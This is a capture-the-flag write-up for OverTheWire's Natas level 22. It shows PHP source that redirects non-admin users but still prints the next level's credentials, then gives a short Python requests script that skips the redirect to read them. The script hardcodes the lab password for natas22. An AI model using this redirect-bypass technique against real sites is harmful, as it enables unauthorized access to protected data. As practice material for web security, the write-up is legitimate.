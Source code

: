 
### Natas 22

<img src="img/Pasted image 20240506183248.png" alt="Example Image" width="1080"/>

There is nothing in content of page , let see the source file [view-source](http://natas22.natas.labs.overthewire.org/index-source.html)

```php
<?php
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>
```

```php
<?php    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

there is `revelio` we have give `revilio=1` parameter in URL , so that it will print the next credentials , i tried with `revilio=1` parameter in URL , the page direction has been happening due to above php file , let disable page redirect by `allow_redirects=False` in requests module

```py
import requests
import re

username = "natas22"
passsowrd = "91awVM9oDiUGm33JdzM7RVLBS8bz9n0s"

url = "http://%s.natas.labs.overthewire.org/?revelio=1"%username

sesssion = requests.Session()
response = sesssion.get(url,auth=(username,passsowrd) , allow_redirects=False )
content = response.text

flag = re.findall("Username: natas23\nPassword: (.*)</pre>",content)[0]

```